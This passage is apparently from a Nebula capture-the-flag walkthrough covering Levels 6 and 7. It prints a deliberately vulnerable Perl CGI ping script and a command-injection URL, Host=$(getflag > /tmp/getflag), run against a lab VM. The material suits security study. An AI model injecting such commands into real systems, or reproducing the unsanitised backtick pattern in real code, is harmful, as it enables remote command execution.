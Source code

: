 Well the password is **hello** :)

	:::bash
	# enter the password 'hello'
	ssh flag06@nebula 'getflag'
	flag06@nebula's password: 
	You have successfully executed getflag on a target account

## Level 7 - RCE exploit in cgi files

This one is quite easy. You can immediately see that there is a **cgi perl** script in the `flag07` directory
that exposes ping.

	:::perl
	#!/usr/bin/perl

	use CGI qw{param};

	print "Content-type: text/html\n\n";

	sub ping {
		$host = $_[0];

		print("<html><head><title>Ping results</title></head><body><pre>");

		@output = `ping -c 3 $host 2>&1`;
		foreach $line (@output) { print "$line"; } 

		print("</pre></body></html>");
		
	}

	# check if Host set. if not, display normal page, etc

	ping(param("Host"));


Then you can access the cgi bin over a browser and simply inject some command into
the script. You need to inspect `thttpd.conf` config file for the httpd to see on which port the 
web server is listeingn (7007).
Then I did the following:

	:::bash
	http://192.168.56.101:7007/index.cgi?Host=$(getflag > /tmp/getflag)

and then you can see that getflag was executed when you open it with level07:

	:::bash
	level07@nebula:/home/flag07$ cat /tmp/getflag 
	You have successfully executed getflag on a target account


## Level 8 - Reading and understanding pcap files!
